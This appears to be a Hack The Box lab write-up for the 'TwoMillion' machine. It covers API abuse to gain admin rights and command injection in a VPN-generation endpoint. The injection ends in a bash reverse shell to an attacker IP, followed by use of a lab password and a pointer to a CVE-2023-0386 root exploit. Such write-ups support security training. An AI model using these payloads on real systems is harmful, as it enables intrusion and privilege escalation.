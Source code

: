```yaml
---
title:  HTB - TwoMillion
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , TwoMillion]
tags: [HackTheBox, API endpoints, API, CVE-2023-0386, nmap, web, rot13, curl,OverlaysFS Fuse]
image:
  path: /assets/img/post/twomillion/twomillion-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - TwoMillion.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 07 Jun, 2023     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

### Nmap

```bash
nmap -p- --min-rate 5000 -n -sS -vvv -Pn 10.10.11.221 -oG allPorts
nmap -sCV -p 22,80 10.10.11.221 -oN targeted
```

![Image](/assets/img/post/twomillion/0.png)

### Resolution DNS

```bash
echo "10.10.11.221 twomillion.htb | sudo tee -a /etc/hosts"
```

![Image](/assets/img/post/twomillion/1.png)

## Web 

When hover the mouse over "`here`" show it us the link to goes.

![Image](/assets/img/post/twomillion/2.png)

Looking in dom i found this path from a API and the instruction of how script works

![Image](/assets/img/post/twomillion/3.png)

![Image](/assets/img/post/twomillion/4.png)

Url decode for read more comfort:

```js
function verifyInviteCode(code){
var formData = {"code":code};
$.ajax({
type: "POST",
url: '/api/v1/invite/verify',
dataType: 'json',
data: formData,
success: function(response){
console.log(response);
},
error: function(response){
console.log(response);
}
});
}

function makeInviteCode(){
$.ajax({
type: "POST",
url: '/api/v1/invite/how/to/generate',
dataType: 'json',
success: function(response){
console.log(response);
},
error: function(response){
console.log(response);
}
});
}
```

Theres a interesting function called makeInviteCode so we gonna execute this function on console from inspection web.

![Image](/assets/img/post/twomillion/5.png)

If i click in the object it show us something interesting encrypte in `ROT13`

![Image](/assets/img/post/twomillion/6.png)

We can decrypt rot13 with some web page for that

![Image](/assets/img/post/twomillion/7.png)

`"In order to generate the invite code, make a POST request to /api/invite/generate"`

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

With `curl` can send a POST method for generate the invite code.

![Image](/assets/img/post/twomillion/8.png)

And the API it generate us an code in base64, it can decrypt with base64[^code] and use it for registration us web and login.

![Image](/assets/img/post/twomillion/9.png)

![Image](/assets/img/post/twomillion/10.png)

Looking in the web, I found a path in api/v1

![Image](/assets/img/post/twomillion/11.png)

## API

Abusing again the API we send a request in method GET with the Cookie

```bash
`curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=avhllptt4vvs1rbocvart3ue9b"`
```

![Image](/assets/img/post/twomillion/12.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" | jq
```

![Image](/assets/img/post/twomillion/13.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com"}' | jq
```

![Image](/assets/img/post/twomillion/14.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com", "is:admin": "True"}' | jq
```

![Image](/assets/img/post/twomillion/15.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com", "is:admin": "1"}' | jq
```

![Image](/assets/img/post/twomillion/16.png)

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID="
```

![Image](/assets/img/post/twomillion/17.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": "jack"}' | jq
```

![Image](/assets/img/post/twomillion/18.png)

![Image](/assets/img/post/twomillion/19.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";whoami;"}'
```

![Image](/assets/img/post/twomillion/20.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";ls;"}'
```

![Image](/assets/img/post/twomillion/21.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";bash -c \"bash -i >& /dev/tcp/10.10.14.88/443 0>&1\" #"}'
```

![Image](/assets/img/post/twomillion/22.png)

```bash
rlwrap nc -lvnp 443
```

![Image](/assets/img/post/twomillion/23.png)

Enumerate linux we can see a folder with the name .env this contain a credentials in plane text. We are a www-data so we need

![Image](/assets/img/post/twomillion/24.png)

admin SuperDuperPass123

When we login the first appear is mail, this mail is lcoated in /var/mail

![Image](/assets/img/post/twomillion/25.png)

## CVE-2023-0386

Well, the mail says everything... Google it.

![Image](/assets/img/post/twomillion/26.png)

Search in google "OverlaysFS Fuse linux kernel and the fisrt poc i found is this `CVE-2023-0386`[^cve]

![Image](/assets/img/post/twomillion/27.png)

ROOT

### Source

[^code]: <https://www.base64decode.org/>
[^cve]: <https://github.com/sxlmnwb/CVE-2023-0386>